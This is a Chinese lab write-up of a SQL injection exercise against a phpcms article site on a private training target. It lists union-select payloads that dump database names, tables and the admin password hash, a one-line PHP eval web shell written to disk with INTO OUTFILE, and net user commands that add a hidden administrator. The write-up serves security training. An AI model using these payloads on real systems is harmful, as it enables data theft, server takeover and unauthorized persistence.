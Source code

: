 ```yaml
---
description: 记录学习平台上实验过程和注入的思路
---
```


# Web渗透之基于phpcms的sql注入实验

## 记录实验过程

先启动靶机的服务，然后打开攻击机，使用浏览器访问PHP网站http://192.168.1.26:8083,打开了一个文章管理系统。

![&#x6587;&#x7AE0;&#x7BA1;&#x7406;&#x7CFB;&#x7EDF;&#x4E3B;&#x9875;](../.gitbook/assets/image%20%2829%29.png)

当我们访问一个文章时，会出现这样的链接

![&#x5355;&#x4E2A;&#x65B0;&#x95FB;&#x7684;&#x94FE;&#x63A5;](../.gitbook/assets/image%20%2841%29.png)

  
所以测试一下该网站此处是否存在sql注入漏洞

当我们构造这个http://192.168.1.26:8083/show.php?id=33 and 1=2链接访问时，系统返回了空白的页面

![&#x8FD4;&#x56DE;&#x7A7A;&#x767D;&#x9875;&#x9762;](../.gitbook/assets/image%20%2815%29.png)

  
当我们访问http://192.168.1.26:8083/show.php?id=33 and 1=1时，返回了正常的页面

![&#x8FD4;&#x56DE;&#x6B63;&#x5E38;&#x7684;&#x9875;&#x9762;](../.gitbook/assets/image%20%2837%29.png)

  
当我们尝试去http://192.168.1.26:8083/show.php?id=33‘访问时，出现了报错信息

![&#x7A0B;&#x5E8F;&#x62A5;&#x9519;&#x4FE1;&#x606F;](../.gitbook/assets/image%20%2860%29.png)

通过以上3次测试，我们可以得出基本的两个结论：  
1.存在sql注入漏洞  
2.程序采用的数据库为MYSQL

下面就考虑如何让数据库回显信息，既然有报错信息那么报错注入可以使用，我们还可以测试一下返回的字段数，直接回显信息。这里采用group by num 来测试（翻倍递增可以加快测试速度），最终测试出来长度为15

![&#x957F;&#x5EA6;&#x4E3A;16&#x65F6;&#x62A5;&#x9519;](../.gitbook/assets/image%20%285%29.png)

![&#x957F;&#x5EA6;&#x4E3A;15&#x65F6;&#x6B63;&#x5E38;&#x663E;&#x793A;](../.gitbook/assets/image%20%2858%29.png)

测试一下显示的是第几个字段，http://192.168.1.26:8083/show.php?id=33 and 1=2 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15。发现第3个和第11个有回显

![&#x6D4B;&#x8BD5;&#x7ED3;&#x679C;](../.gitbook/assets/image%20%2847%29.png)

**实验手册中的几个payload\(基本思路都是利用sql函数和mysql系统数据库information\_schema\)**  
1.查看 mysql 版本 version\(\)  
2.查看当前数据库 database\(\)  
3.查看当前用户 user\(\)  
4.利用 and 1=2 union select 1,2,group\_concat\(convert\(SCHEMA\_NAME using latin1\)\),4,5,6,7,8,9,10,11,12,13,14,15  from  information\_schema.SCHEMATA，查看 mysql中所有数据库的名称。  
5.利用 and 1=2 union select 1,2,group\_concat\(convert\(table\_name using latin1\)\),4,5,6,7,8,9,10,11,12,13,14,15 from information\_schema.tables where table\_schema=database\(\) ，查看 cms 数据库拥有的所有表。可以发现存放用户信息的表cms\_users。  
6.利用 and 1=2 union select 1,2,group_concat\(convert\(column\_name using latin1\)\),4,5,6,7,8,9,10,11,12,13,14,15 from information\_schema.columns where table\_name=0x636D735F7573657273。 table\_name=cms\_users，表名需要编码为 16 进制。得到 3 个列：userid，username 和 password 从ASCII对照表中可知对应：c\(63\) m\(6d\) s\(73\)_ \(5f\) u\(75\) s\(73\) e\(65\) r\(72\) s\(73\)  
7.利用 and 1=2 union select 1,2,concat\_ws\(0x2b,userid,username,password\),4,5,6,7,8,9,10,11,12,13,14,15 from cms.cms\_users。得到管理员账号密码为：admin/e10adc3949ba59abbe56e057f20f883e（解密后123456）  


![&#x83B7;&#x5F97;&#x540E;&#x53F0;&#x7528;&#x6237;&#x540D;&#x5BC6;&#x7801;](../.gitbook/assets/image%20%2822%29.png)

登录后台：

![](../.gitbook/assets/image%20%2820%29.png)

后台页面竟然有报错信息......，暴露了目录，直接写一个木马。http://192.168.1.26:8083/show.php?id=33 union select '&lt;?php eval\($\_POST\[cmd\]\); ?&gt;',1,1,1,1,1,1,1,1,1,1,1,1,1,1 into outfile D:\\WWW\\cms\\ma.php

![](../.gitbook/assets/image%20%2861%29.png)

菜刀链接 

![](../.gitbook/assets/image%20%2845%29.png)

打开虚拟终端尝试添加用户：

net user test test /add  


![&#x6DFB;&#x52A0;&#x7528;&#x6237;](../.gitbook/assets/image%20%286%29.png)

  
添加用户到管理员组

net localgroup Administrators test /add  


![&#x6DFB;&#x52A0;&#x7528;&#x6237;&#x5230;&#x7BA1;&#x7406;&#x5458;&#x7EC4;](../.gitbook/assets/image%20%2817%29.png)

  
查看管理员组   
net localgroup administrators

![&#x67E5;&#x770B;&#x7BA1;&#x7406;&#x5458;&#x7EC4;](../.gitbook/assets/image%20%2849%29.png)

尝试远程桌面链接

![&#x8FDC;&#x7A0B;&#x684C;&#x9762;](../.gitbook/assets/image%20%2821%29.png)



